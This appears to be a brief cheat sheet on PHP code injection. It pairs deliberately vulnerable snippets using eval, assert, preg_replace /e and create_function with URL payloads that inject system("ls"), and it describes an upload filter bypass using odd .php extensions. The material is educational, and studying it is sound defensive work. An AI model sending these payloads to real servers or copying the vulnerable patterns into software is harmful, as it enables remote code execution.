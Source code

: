 ###### `#` needs to be encoded when attacks are used through urls

#### Beware of the following functions : 
##eval

```
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";
  eval($str);
?>
```

attack = ?name=";syslem("ls");#

##assert()  - identical to eval()
```
<?php
  assert(trim("'".$_GET['name']."'"));
  echo "Hello ".htmlentities($_GET['name']);
?> 
```
attack = ?name='.system("ls");#

##preg_replace (with /e modifier) => preg_replace('/.*/e',...) - /e does an eval() on the match
```
<?php
    echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```
attack = ?pattern=/.*/e&new=system("ls")&base=something

##create_function
```
<?php
   usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
?>
```
attack = ?order=id);}system('ls');#

include[_once] / require[_once] 

WildCard :  A .php file can be uploaded bypassing preg_match('/\.php$/',$file) by name the file as .php2 or 	            .php.blah so that apche doesn't know to handle the extension move to next one and run the php code 
